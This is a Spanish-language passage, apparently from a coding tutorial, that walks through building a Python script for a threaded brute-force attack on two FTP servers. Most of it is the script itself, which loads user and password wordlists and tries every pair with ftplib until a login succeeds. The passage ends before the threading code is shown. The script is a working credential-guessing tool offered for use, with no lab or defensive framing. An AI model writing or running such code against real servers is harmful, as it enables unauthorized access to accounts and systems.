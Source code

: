     - **Razonamiento**: Más allá de ver en consola “fallo” o “éxito”, es útil medir cuántos intentos por segundo se alcanzaron, tiempo total de ejecución y eficacia de la concurrencia.
        
    - **Finalidad**: Incluir registro de tiempos de inicio/fin, contadores de intentos por servidor y, si se desea, reportes al finalizar (por ejemplo, un resumen CSV o un gráfico).
        

---

Te voy a guiar paso a paso por cómo lo construí el codigo para que quede claro cómo llegué a cada decisión.

---

### **Mi Código Mejorado y Explicado**

Voy a escribir un programa en Python que realice un ataque de fuerza bruta contra dos servidores FTP al mismo tiempo, usando hilos para que sea más rápido. Quiero que sea eficiente, fácil de leer y que la salida en la consola no se vuelva un desastre. Aquí está el código completo, y luego te explico cómo lo hice:

```python
from ftplib import FTP
import threading

# Defino una función para atacar un servidor FTP
def ataque_ftp(ftp_server, usernames, passwords):
    """
    Intenta conectar a un servidor FTP probando combinaciones de usuarios y contraseñas.
    
    :param ftp_server: IP del servidor FTP
    :param usernames: Lista de nombres de usuario
    :param passwords: Lista de contraseñas
    """
    for username in usernames:
        for password in passwords:
            try:
                # Me conecto al servidor FTP con la combinación actual
                ftp = FTP(ftp_server)
                ftp.login(user=username, passwd=password)
                # Si funciona, muestro el éxito y termino
                with print_lock:
                    print(f"¡Éxito! Con usuario: {username} y contraseña: {password} en {ftp_server}")
                ftp.quit()
                return  # Salgo porque ya encontré una combinación válida
            except Exception:
                # Si falla, lo notifico y sigo intentando
                with print_lock:
                    print(f"Fallo con usuario: {username} y contraseña: {password} en {ftp_server}")
                try:
                    ftp.quit()  # Cierro la conexión si es posible
                except:
                    pass  # Si no se puede cerrar, no pasa nada
    # Si llegué aquí, no encontré nada
    with print_lock:
        print(f"Ataque terminado en {ftp_server}. No encontré credenciales válidas.")

# Leo los usuarios y contraseñas de los archivos
with open('usuarios.txt', 'r') as uf:
    usernames = uf.read().splitlines()
with open('contraseñas.txt', 'r') as pf:
    passwords = pf.read().splitlines()

# Creo un lock para que la salida no se mezcle
```